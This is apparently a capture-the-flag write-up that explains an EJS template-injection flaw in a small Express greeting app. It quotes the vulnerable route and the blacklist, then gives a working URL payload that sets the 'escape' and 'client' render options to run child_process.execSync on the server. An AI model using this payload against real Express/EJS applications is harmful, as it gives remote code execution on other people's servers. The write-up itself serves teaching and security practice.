 

`Author: eliyah`

`Challenge: Express Javascript Security`

# Overview

We are given a url to the site and the site code which you can find in the challenge directory.

The website has 2 endpoints. Root (`/`) endpoint and the `/greet` endpoint. On the first one is a form that just sends you to the `/greet` endpoint with some query parameters set (font, fontSize, name). With the given parameters second endpoint just returns page with hello message styled with selected font and size.

`http://ejs.web.seetf.sg:1337/`:

![Screenshot](ss1.png)

=> `http://ejs.web.seetf.sg:1337/greet?name=someName&font=Arial&fontSize=20`:

![Screenshot](ss2.png)

Also, in the docker container there is `/readflag` executable that outputs the flag to stdout. 

# Code examination and solution

Because of this section of code in the main.js the function that is used for rendering ejs templates is [renderFile](https://github.com/mde/ejs/blob/main/lib/ejs.js#L441).
```js
// main.js

// ejs v3.1.9
app.set('view engine', 'ejs');
```


Array of filters that mustn't be found in the request query:

```js
// main.js

const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]
```

The vulnerable function:

```js
// main.js

app.get('/greet', (req, res) => {
    
	const data = JSON.stringify(req.query);
    	if (BLACKLIST.find((item) => data.includes(item))) {
        	return res.status(400).send('Can you not?');
   	}
	
    // Vulnerability is here
	// because the req.query object is passed 
	// directly to the render function.
    // This is not good practice because 
    // an adversary can make use of the 
    // rendering options.
    return res.render('greet', { 
    	...JSON.parse(data),
    	cache: false
    });
});
```
- *Rendering options can also be passed through the data argument of the renderFile function through the settings object. [RENDERING OPTIONS](https://github.com/mde/ejs/blob/main/docs/jsdoc/options.jsdoc)*

Parts of [renderFile](https://github.com/mde/ejs/blob/main/lib/ejs.js#L441):
```js
// github repo: mde/ejs
// lib/ejs.js

exports.renderFile = function(){
	//... 
	if (data.settings) {
		//...
		viewOpts = data.settings['view options'];
        	if (viewOpts) {
          		utils.shallowCopy(opts, viewOpts);
        	}
	}
	//...
	
}
```
- *When there is only one argument(data) specified in the render call the function copies rendering options from the `data`'s `settings[view options]` field. With this in mind I could pass url like `http://ejs.web.seetf.sg:1337?settings[view options][escape]=...` and it will set the option `escape` to the passed value.*

Because of the BLACKLIST filters some template render options cannot be used. Fortunately in the BLACKLIST there is only `escapeFunction` option and not it's alias `escape`. What I can do with this?

I took another look at the ejs source and i found something interesting.

- *When rendering template, ejs is dynamically creating function that will assemble the template with the data passed to it. The function is compiled from the string which is dynamically created based on the template. All of this is happening in the [compile](https://github.com/mde/ejs/blob/main/lib/ejs.js#L441) function of the `Template` class that eventually gets called.*

Parts of [Template.compile](https://github.com/mde/ejs/blob/main/lib/ejs.js#L441):
```js
// github repo: mde/ejs
// lib/ejs.js

Template.prototype={
    //...
    compile = function() {
	//...
	var escapeFn = opts.escapeFunction;
	//...
	if (opts.client) {
		// src is the string containing the source code of the function that assembles the template
     		src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
    	}
}
```

Looking at this piece of code it looks like that I can pass my own function to the escapeFn if the opts.client is true. 

- *The `escapeFn` is called for the every variable name found between delimiters `<%=` and `%>`. In short, every appearance of the `<%= var_name %>` is replaced with the result value of `escapeFn(var_name)`.
You can find it in [this function](https://github.com/mde/ejs/blob/main/lib/ejs.js#L815).*

So I tried with the payload:

```
http://ejs.web.seetf.sg:1337/greet?settings[view%20options][escape]=function(){return%20process.mainModule.require(%27child_process%27).execSync(%27/readflag%27)}&font=aaa&fontSize=aaa&settings[view%20options][client]=true&name=aaa
```

And it was successful :D

![Screenshot](ss3.png)




